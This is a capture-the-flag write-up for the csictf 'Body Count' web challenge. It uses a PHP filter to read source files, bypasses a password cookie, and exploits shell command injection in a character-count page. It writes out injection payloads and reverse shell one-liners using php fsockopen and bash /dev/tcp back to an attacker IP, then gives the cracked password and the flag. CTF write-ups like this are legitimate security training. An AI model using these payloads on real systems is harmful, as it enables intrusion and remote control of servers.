 # Body Count

## Challenge details 
**Category** : Web  
**points** : 493  
**Description** : Here’s a character count service for you!  
                  http://chall.csivit.com:30202
                 
## Solution
First time in the website we see a black screen written but nothing intresting by observing the url `http://chall.csivit.com:30202/?file=wc.php` we can see that's it's the content
of the `wc.php` so i tried checking `robots.txt` and we got this :


```
Disallow: /?file=checkpass.php
```


In order to be able to see the content of `checkpass.php` we can  use a php filter 


```
http://chall.csivit.com:30202/?file=php://filter/convert.base64-encode/resource=checkpass.php
```


Using that we got the base64 of the `checkpass.php` after decoding it we got this :  
**checkpass.php**


``` php
<?php
$password = "w0rdc0unt123";
// Cookie password.
echo "IMPORTANT!!! The page is still under development. This has a secret, do not push this page.";

header('Location: /');
```
So we got two intresting things a password and note saying it's a cookie password and by looking to our cookies we find out a cookie with name of `password` and 
value `PASSWORD` we will leave it like this for now because we need to understand first how this service is running by checking the content of `wc.php`,
we can easily do that using the same technique we used earlier  


```
http://chall.csivit.com:30202/?file=php://filter/convert.base64-encode/resource=wc.php
```
And This is the content of the file :  
**wc.php**
``` php
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>wc as a service</title>
    <style>
        html,
        body {
            overflow: none;
            max-height: 100vh;
        }
    </style>
</head>

<body style="height: 100vh; text-align: center; background-color: black; color: white; display: flex; flex-direction: column; justify-content: center;">
    <?php
    ini_set('max_execution_time', 5);
    if ($_COOKIE['password'] !== getenv('PASSWORD')) {
        setcookie('password', 'PASSWORD');
        die('Sorry, only people from csivit are allowed to access this page.');
    }
    ?>

    <h1>Character Count as a Service</h1>
    <form>
        <input type="hidden" value="wc.php" name="file">
        <textarea style="border-radius: 1rem;" type="text" name="text" rows=30 cols=100></textarea><br />
        <input type="submit">
    </form>
    <?php
    if (isset($_GET["text"])) {
        $text = $_GET["text"];
        echo "<h2>The Character Count is: " . exec('printf \'' . $text . '\' | wc -c') . "</h2>";
    }
    ?>
</body>

</html>
```
By looking to the source code we can divide it into two parts 


#### Part One 
Our cookie password will get checked , in case of fail a message saying `Sorry, only people from csivit are allowed to access this page.` will appear and the rest 
of the code won't be executed due to the die() focntion . So we tried the password that we got earlier `w0rdc0unt123` and it worked now we can see the rest of the
webpage and pass to the second part 


#### Part Two
As we can see our input `Text`obtained by the GET form will be putten inside this command `printf '{text}' | wc -c`. We can easily bypass this and get a command execution
using this payload :  
`'; command # `  
* ` ' `  :  To close the first quote and complete the printf command  
* ` ; `  :  In order to specify a second command 
* `command`  :  This is the command tha we want to execute  
* `#`  :  To comment out the rest  


**Note** :  We will only get the last line of the result due to the exec focntion that only returns the last line of the result a way to bypass it is by adding `| head -n $line` after the command where $line represents the line you want to read but we will not need to do this here


So after that I tried `'; ls #` and this was the result : 
```
The Character Count is: wc.php
```
Bingo ! Our code injection worked now we will try to spawn a shell , at the begining i tried to do it with netcat and python but neither of those were present in the 
server so i did it using php and this was the command :   
```
php -r '$sock=fsockopen( "$your_adress_ip" , $port );exec("/bin/sh -i <&3 >&3 2>&3");'
```
The full command will be like this :
```
' ;  php -r '$sock=fsockopen( "$your_adress_ip" , $port );exec("/bin/sh -i <&3 >&3 2>&3");' #
```
Another way to do it is using the bach technique :  
```
bash -i >& /dev/tcp/$your_adress_ip/$port 0>&1
```
With that we were able to get a shell in the server and we were the user `www-data`  

```
www-data@9c9f6ae73053:/var/www/html$
````
After navigating a little bit inside the server I found two intresting files :   
* `flag.txt` : Which was located at `/ctf/system/of/a/down/` to find it you can use this `find / -iname "*flag*" ` .But we can't read it because of permissions, the only users who could read it are `root`
and `csictf`  
* `README` : A file located at `/ctf` and this was its content :
```
My password hash is 6f246c872cbf0b7fd7530b7aa235e67e.
```
So this is propably the password of the `csictf` user, all we need to do is crack it than su to csictf and read the flag . I wasn't able to crack it using john but  an online crackstation were able to crack it and this is the passsword `csictf` i think anyone 
could guess it  
Now we can change user to `csictf` using `su` and read the flag

#### The Flag 
```
csictf{1nj3ct10n_15_p41nfu1}
```












